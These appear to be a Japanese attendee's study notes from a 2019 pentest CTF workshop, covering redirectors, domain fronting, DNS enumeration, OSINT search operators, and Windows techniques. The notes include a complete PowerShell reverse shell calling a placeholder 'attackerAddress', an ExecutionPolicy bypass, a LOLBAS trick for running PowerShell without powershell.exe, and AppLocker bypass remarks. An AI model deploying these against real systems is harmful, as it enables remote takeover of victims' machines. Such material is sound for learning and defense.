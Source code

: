 ```yaml
---
date: 2019-12-29
description: '浪速セキュリティnote'
tags:
 - 記録
---
```


# 浪速セキュリティnote
12/29(日)に開催された[浪速セキュリティ勉強会#04 #05：ペンテストCTFで学ぶサイバーセキュリティ（12月29日)](https://naniwasecurity.connpass.com/event/154331/)に参加した際のarchive

## 基礎知識
 - 今回は実際に攻撃するまでの偵察がメイン
 - `nc -lvnp 80`でlisten

### redirector
 - targetとattackerの間に配置して, targetと直接通信するサーバ
 - これ自身を調べても本体はいない
 - 自分たちの安全を保証するために挟むのが一般的
 - ペンテストやレッドチームもこういったところまでやる必要がある
 - 目的
   - 自分たちをtargetから隠す
   - redirectorをtakedownされても別のredirectorを立てればよい

## DNSの調査
### domain fronting
   - HTTPS接続のドメインを難読化(解析困難化)することによってインターネットの検閲やブロッキングを回避する手法
   - 例えば、CDNのサーバーにリフレクションサーバーを紛れ込ます手法などかある
     - ref: [Domain Fronting (まとめ)](https://malware-log.hatenablog.com/entry/Domain_Fronting)
   - 最近はreputationで判断しているので, false positiveがある
     - [domainFrontingLists](https://github.com/vysecurity/DomainFrontingLists)
     - [WebPulse Site Review Request](https://sitereview.bluecoat.com/#/)

### DNSの調査(DNS Enumeration)
 - targetのname serverの探索
 - [zonetransfer.me](zonetransfer.me)は脆弱なやられサーバ的な感じ

 - nsレコードをもらってくる
   - `host -t ns {targetip}`

```
~# host -t ns zonetransfer.me
zonetransfer.me name server nsztm1.digi.ninja.
zonetransfer.me name server nsztm2.digi.ninja.

```

 - mxレコードをもらってくる
   - `host -t mx {targetip}`

```
# host -t mx zonetransfer.me
zonetransfer.me mail is handled by 0 ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 10 ALT2.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX4.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 10 ALT1.ASPMX.L.GOOGLE.COM.
zonetransfer.me mail is handled by 20 ASPMX5.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX3.GOOGLEMAIL.COM.
zonetransfer.me mail is handled by 20 ASPMX2.GOOGLEMAIL.COM.
```

   - 相手はメールをgmailの管理サーバを使っていることがわかる
   - -> 標的型攻撃をする場合, googleの持っている機能はscanされてしまうこともわかる
   - -> malwareを作って添付しても, そもそも相手に着弾しない可能性がある
   - -> 着弾するかしないかは, 自分でgoogleのメールサーバを使って確認することができる
   - これは他のメールサービスでも同様

### DNS Lookup
 - 存在しそうなホスト名にDNSパケットを飛ばして確認する手法

```
for name in $(cat /usr/share/dnsenum/dns.txt); do
host ${name}. zonetransfer.me | grep "has address" | cut -d " " -f 1,4
done
```

### Reverse DNS Lookup
 - 1つ存在しているホスト名を見つけ, 存在しているホスト名の近くを使っていると想定して上でBruteForceを試す手法
 - 192.168.33.{brute force}

### DNS Zone Transfer
 - ゾーン転送情報取得を用いて確認する手法
 - dig axfr @... addr

### 内部のサーバのレコードを見る
 - サーバ証明書を発行した時に発行した旨をDBに蓄積する
 - これが改ざんされていないかを確認する仕組みがある
   - [【講演】Certificate Transparencyを知ろう ～証明書の透明...](https://www.jnsa.org/seminar/pki-day/2016/data/1-2_oosumi.pdf)
 - このログサーバは公開されている
   - 内部のサーバレコードが見れる
   - 命名から中身が想定できる
 - [findomain](https://github.com/Edu4rdSHL/findomain)
 
### RedirectorとRedirectの違い
 - redirectorは直接通信する
 - redirectは挟んで通信するので遮断される可能性がある

## OSINT
### Google Search Operator
   - [GoogleGuide making searching even easier](http://www.googleguide.com/print/adv_op_ref.pdf)
   - 空白はOR
   - `-`は除外
   - `site:`
   - `filetype:`
     - `filetype:pdf`が便利
### Twitter Search Operators
   - [Rules and filtering](https://developer.twitter.com/en/docs/tweets/rules-and-filtering/overview/standard-operators)
   - `geocode: 緯度,経度,距離km`
   - [google hacking database](https://www.exploit-db.com/google-hacking-database)
   - 社内向け資料に連絡先があるなど
 
## ReverseShell
### PowerShell
 - PowerShellでファイルを実行するにはExecutionPolicyを設定し直す必要がある
   - [設定値等についてはこちら(Qiita: PowerShellのExecutionPolicyのスコープとかについて詳しく)](https://qiita.com/kikuchi/items/59f219eae2a172880ba6)

```
Set-ExecutionPolicy bypass`
start-process calc.exe
powershell.exe -executionpolicy bypass gen_calc.ps1
```

 - ReverseShell用のCSharpCode

```
$client = New-Object System.Net.Sockets.TCPClient("attackerAddress",443);
$stream =$client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback =(iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
  $sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
};

$client.Close()
```

### PowerShell without powershell.exe
 - SyncAppvは仮想化モジュールの一部
 - powershellのコマンドを受け付ける
   - `C:\Windows\System32\SyncAppvPublishingServer.vbs "Break; start-process calc.exe"`
   - これでcalc.exeが立ち上がる
 - lolbas(Living Off The Land Binaries and Scripts)
   - 現地調達型バイナリ(実行ファイル)
   - [Web: Living Off The Land Binaries and Scripts (and also Libraries)](https://lolbas-project.github.io/)
   - [GitHub](https://github.com/LOLBAS-Project/LOLBAS)
   - ここで対象になっている107個のアプリケーションはチェック対象にすることが求められる

### Restricting PowerShell
 - applocker
   - ブラックリスト管理をするのが良い
   - 最初に全て許可してからダメなものをブラックリストに入れる
 - apploockerのbypass
   - powershellを動かせる
   - 対策として, InstallUtil.exeをapplockerに入れる
     - その際に, 過去の実行ログをみて, 使われていない場合は良いかもしれない
     - だいたい使われているので, それらを使っているcallerをホワイトリスト管理するとよい

